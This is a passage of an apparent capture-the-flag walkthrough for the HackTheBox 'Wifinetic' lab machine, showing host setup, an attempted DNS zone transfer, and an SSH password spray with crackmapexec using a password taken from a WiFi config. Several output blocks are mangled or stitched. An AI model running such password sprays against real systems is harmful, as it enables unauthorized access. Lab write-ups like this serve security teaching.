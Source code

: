 Given the use of `wifinetic.htb` in the documents, I’ll add that to my `/etc/hosts` file:

```
10.10.11.247 wifinetic.htb

```

Given that DNS is listening on TCP, I’ll try a zone transfer to see if there are any subdomains:

```

oxdf@hacky$ dig asxf @10.10.11.247 wifinetic.htb
;; communications error to 10.10.11.247#53: timed out
;; communications error to 10.10.11.247#53: timed out
;; communications error to 10.10.11.247#53: timed out

; <<>> DiG 9.18.12-0ubuntu0.22.04.1-Ubuntu <<>> asxf @10.10.11.247 wifinetic.htb
;; global options: +cmd
;; no servers could be reached

;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 17349
;; flags: qr aa rd ra ad; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 65494
;; QUESTION SECTION:
;wifinetic.htb.                 IN      A

;; ANSWER SECTION:
wifinetic.htb.          0       IN      A       10.10.11.247

;; Query time: 0 msec
;; SERVER: 127.0.0.53#53(127.0.0.53) (UDP)
;; WHEN: Tue Sep 12 20:44:43 EDT 2023
;; MSG SIZE  rcvd: 58

```

I’m not sure why it times out at first, but it eventually succeeds and finds just the main domain.

## Shell as netadmin

### SSH Password Bruteforce

With the password from the Wifi config, I’ll use `crackmapexec` to try each user from the `passwd` file with the password from the wireless config over SSH. I like to use `--continue-on-success` in case there are more than one user that shares that password. It finds one:

```

oxdf@hacky$ crackmapexec ssh 10.10.11.247 -u users -p 'VeRyUniUqWiFIPasswrd1!' -
ontinue-on-success
SSH         10.10.11.247    22     10.10.11.247     [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.9
SSH         10.10.11.247    22     10.10.11.247     [-] root:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] daemon:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] ftp:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] network:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] nobody:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] ntp:VeRyUniUqWiFIPasswrd1! Authentication failed.
```